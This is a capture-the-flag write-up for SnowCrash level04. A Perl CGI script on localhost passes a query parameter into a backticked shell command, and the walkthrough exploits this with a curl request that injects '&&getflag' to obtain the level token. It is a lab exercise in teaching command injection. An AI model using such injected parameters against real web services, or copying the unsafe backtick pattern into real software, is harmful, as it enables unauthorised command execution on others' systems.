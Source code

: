 # LEVEL 04

There is a perl file in our Home directory, which give us a lot if informations

```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Let's try a curl.
```
level04@SnowCrash:~$ curl -v localhost:4747
* About to connect() to localhost port 4747 (#0)
*   Trying 127.0.0.1... connected
> GET / HTTP/1.1
> User-Agent: curl/7.22.0 (i686-pc-linux-gnu) libcurl/7.22.0 OpenSSL/1.0.1 zlib/1.2.3.4 libidn/1.23 librtmp/2.3
> Host: localhost:4747
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Fri, 02 Dec 2022 17:38:00 GMT
< Server: Apache/2.2.22 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 1
< Content-Type: text/html
<

* Connection #0 to host localhost left intact
* Closing connection #0
```

If we look deeper in our system, we can find an Apache directory, with a config file that look interesting for us
```
level04@SnowCrash:~$ cat /etc/apache2/sites-available/level05.conf
<VirtualHost *:4747>
        DocumentRoot    /var/www/level04/
        SuexecUserGroup flag04 level04
        <Directory /var/www/level04>
                Options +ExecCGI
                DirectoryIndex level04.pl
                AllowOverride None
                Order allow,deny
                Allow from all
                AddHandler cgi-script .pl
        </Directory>
</VirtualHost>
```

We see here that level04.pl il executed with the CGI.
also, the print cmd is backticked, so there is a place for command injection
>print \`echo $y 2>&1\`; 

Its simple as this :

provide an argument to echo which is `yo`

then execute getflag with `&& getflag`.
we have to URL encode the `&&` because query params URL cannot accept special characters

```
level04@SnowCrash:~$ curl localhost:4747?x=yo%26%26getflag
x=yo
Check flag.Here is your token : xxxxxxxxxxxxxxxxxxxxxxxxx
```


